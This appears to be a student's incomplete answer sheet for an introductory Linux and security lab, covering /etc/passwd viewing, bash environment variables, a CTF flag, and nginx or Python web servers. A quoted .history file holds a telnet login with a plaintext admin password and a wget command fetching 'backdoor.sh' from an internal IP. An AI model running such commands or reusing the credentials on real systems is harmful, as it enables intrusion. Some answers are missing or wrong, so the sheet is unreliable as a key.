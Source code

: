         Your commands : cat -n /etc/passwd 

Using the previous nl command, the head and tail commands, display the lines of /etc/passwd between line 7 and line 12

        Your commands : ###NEED TO WORK ON IT### DIDN'T FIND IT
        


## Bash Environnement  


On your student machine what is the value of the FLAG environment variable ?

    FLAG : BC{EXPORT_B4SH_FLAG}

Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

    Commands : export variable='myValue'
    

From a hacker's perspective, look for information that might be useful to you in the .history file.

    Your answer: 
    telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!
	 wget http://10.88.56.53/backdoor.sh
	 
    

From an analyst's perspective, look for information that might be useful to you in the .history file.

    Your answer
    

## Protocols and Servers 



On your kali (or other) , install ngnix to have an http server on port 8080. Replace the default page of ngnix by an html page displaying a hello world.

        No answer required
        sudo apt update
        sudo apt install nginx

What other well-known service could be used instead of nginx?

        Your answer : Apache, Python

On your student machine, create a temporary http server with python, on port 5000. Then on your kali machine, open a browser and go to the address 10.12.181.X:.

        Your command : python3 -m http.server 5000


Let's imagine that a hacker owns the domain name g00gle.com, which tool would allow him to obtain an ssl certificate (https) very easily?

        Your answer :

On a linux machine, what tool could you use to have a self-signed SSL certificate on your local machine (localhost) ?
